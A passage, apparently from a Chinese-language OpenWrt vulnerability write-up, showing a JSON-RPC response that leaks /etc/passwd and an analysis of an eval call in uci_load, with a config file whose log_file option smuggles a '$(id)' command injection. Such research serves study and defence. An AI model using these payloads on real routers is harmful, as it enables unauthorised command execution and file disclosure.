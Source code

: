 ```
HTTP/1.1 200 OK
Connection: close
Content-Type: application/json
Cache-Control: no-cache
Expires: 0
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Length: 322

[{"id":5,"jsonrpc":"2.0","result":[0,{"data":"root:x:0:0:root:\/root:\/bin\/ash\ndaemon:*:1:1:daemon:\/var:\/bin\/false\nftp:*:55:55:ftp:\/home\/ftp:\/bin\/false\nnetwork:*:101:101:network:\/var:\/bin\/false\nnobody:*:65534:65534:nobody:\/var:\/bin\/false\ndnsmasq:x:453:453:dnsmasq:\/var\/run\/dnsmasq:\/bin\/false\n"}]}]
```

### [](#奇怪-eavl "奇怪 eavl")奇怪 eavl

在分析中，发现了一段有趣的代码。

```
DATA="$(/sbin/uci ${UCI_CONFIG_DIR:+-c $UCI_CONFIG_DIR} ${LOAD_STATE:+-P /var/state
#DATA="$(uci -P /var/state -S -n export system 2>/dev/null)"
RET="$?"                                                                   
[ "$RET" != 0 -o -z "$DATA" ] || eval "$DATA"                                      
unset DATA
```

以`/etc/system/log`中设置日志为例，`config_load`函数会调用到 [`uci_load`](https://github.com/openwrt/openwrt/blob/395bef4bbacc0dd1cca72907529539194504be27/package/system/uci/files/lib/config/uci.sh#L22)函数，上面的这段代码就摘自 `uci_load`。$DATA 的值是`/etc/config/system`的文件内容。

```
root@OpenWrt:/etc/init.d

config system
	option hostname 'OpenWrt'
	option ttylogin '0'
	option urandom_seed '0'
	option zonename 'UTC'
	option log_size '64'
	option cronloglevel '5'
	option log_proto 'udp'
	option log_file '/etc/init.d/pwned$(id)'
	option conloglevel '7'

config timeserver 'ntp'
	list server '0.openwrt.pool.ntp.org'
	list server '1.openwrt.pool.ntp.org'
	list server '2.openwrt.pool.ntp.org'
	list server '3.openwrt.pool.ntp.org'
```
